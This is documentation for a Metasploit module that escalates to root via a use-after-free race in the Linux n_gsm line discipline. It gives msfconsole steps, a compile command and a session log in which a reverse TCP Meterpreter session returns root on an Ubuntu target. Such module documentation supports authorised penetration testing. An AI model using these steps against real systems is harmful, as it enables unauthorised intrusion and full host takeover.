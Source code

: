 ## Vulnerable Application

This module exploits a race condition leading to a use-after-free on
the kmalloc-1024 slab. The bug exists in the `n_gsm` tty line discipline,
created for gsm modems. The race condition results in a UAF on a struct
`gsm_dlci` while restarting the gsm mux.

The target system must have at least two CPU cores.

Bypasses for SMEP, SMAP and KASLR are included.

This module has been tested successfully on

* Ubuntu 20.04 Server (x86_64)
* Ubuntu 18.04 Server (x86_64)
* CentOS 8 Server (x86_64)
* RHEL 8 Server (x86_64)


## Verification Steps

1. Start `msfconsole`
2. Get a session
3. `use exploit/linux/local/gsm_multiplex_priv_esc`
4. `set SESSION [SESSION]`
5. `check`
6. `run`
7. You should get a new *root* session


## Options

### WritableDir

A writable directory file system path. (default: `/tmp`)

### COMPILE

Options: `Auto` `True` `False` (default: `Auto`)

Whether the exploit should be live compiled with `gcc` on the target system,
or uploaded as a pre-compiled binary.

`Auto` will first determine if `gcc` is installed to compile live on the system,
and fall back to uploading a pre-compiled binary.

## Compiled Executable

The module makes use of a pre-compiled exploit executable to be
used when `gcc` is not available on the target host for live compiling,
or `COMPILE` is set to `False`.

The executable was cross-compiled with [musl-cross](https://s3.amazonaws.com/muslcross/musl-cross-linux-6.tar).

```bash
./x86_64-linux-musl-gcc -o exploit -s -pie -static exploit.c
```

## Scenarios

```
msf6 exploit(linux/local/gsm_multiplex_priv_esc) > check 
[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: python
[+] System architecture x86_64 is supported
[+] Ubuntu running Linux 4.15.0-20-generic is vulnerable
[+] System has 4 CPU cores
[+] The target is vulnerable.
msf6 exploit(linux/local/gsm_multiplex_priv_esc) > exploit
[*] Started reverse TCP handler on 192.168.138.118:9128 
[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: python
[*] Running automatic check ("set AutoCheck false" to disable)
[+] System architecture x86_64 is supported
[+] Ubuntu running Linux 4.15.0-20-generic is vulnerable
[+] System has 4 CPU cores
[+] The target is vulnerable.
[+] gcc is installed
[*] Live compiling exploit on system...
[*] Writing '/tmp/.3KcRZM' (250 bytes) ...
[*] Launching exploit
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.138.192
[+] Deleted /tmp/.Rr0y7I2WQ
[*] Meterpreter session 13 opened (192.168.138.118:9128 -> 192.168.138.192:45906) at 2024-02-05 21:49:46 +0000
msf6 exploit(linux/local/gsm_multiplex_priv_esc) > sessions -i 13
[*] Starting interaction with 13...

meterpreter > getuid 
Server username: root
meterpreter > :)
```
